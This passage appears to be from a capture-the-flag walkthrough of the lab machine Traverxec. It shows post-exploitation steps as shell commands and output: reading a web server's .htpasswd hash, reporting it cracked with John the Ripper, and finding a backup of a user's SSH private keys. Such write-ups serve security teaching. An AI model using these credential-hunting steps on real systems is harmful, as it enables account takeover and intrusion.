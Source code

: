 Let's see what files can I access. Only interesting/unusual files are shown
here, otherwise it would fill the page.
```
www-data@traverxec $ find / -type f -readable
...
/var/nostromo/logs/nhttpd.pid
/var/nostromo/conf/mimes
/var/nostromo/conf/.htpasswd
/var/nostromo/conf/nhttpd.conf
/var/nostromo/icons/dir.gif
/var/nostromo/icons/file.gif
/var/nostromo/htdocs/js/main.js
/var/nostromo/htdocs/css/style.css
/var/nostromo/htdocs/empty.html
...
```

First I check `.htpasswd`, which gets me a password hash for david.
```
www-data@traverxec $ cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

Since this is a weak MD5 hash, I let john the ripper run it through rockyou,
it comes back with `Nowonly4me` as the password. We could try these credentials,
but lets look elsewhere first.

I take a look at `nhttpd.conf` and it contains the following interesting section.
```
www-data@traverxec $ cat /var/nostromo/conf/nhttpd.conf
...
# HOMEDIRS [OPTIONAL]

homedirs            /home
homedirs_public     public_www
...
```

This tells nostromo to serve a directory from each user's home called
`public_www` under `/~username`. Since we know we have a user called `david`
on the box, we open `http://10.10.10.165/~david/` in Firefox, and bingo we
found `david`'s private area. After that we check `/home/david/public_www`
as `find` must have missed it if `/home/david` itself is unreadable.
```
www-data@traverxec $ find /home/david/public_www
/home/david/public_www
/home/david/public_www/index.html
/home/david/public_www/protected-file-area
/home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz <-----
/home/david/public_www/protected-file-area/.htaccess
www-data@traverxec $ tar tf /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```
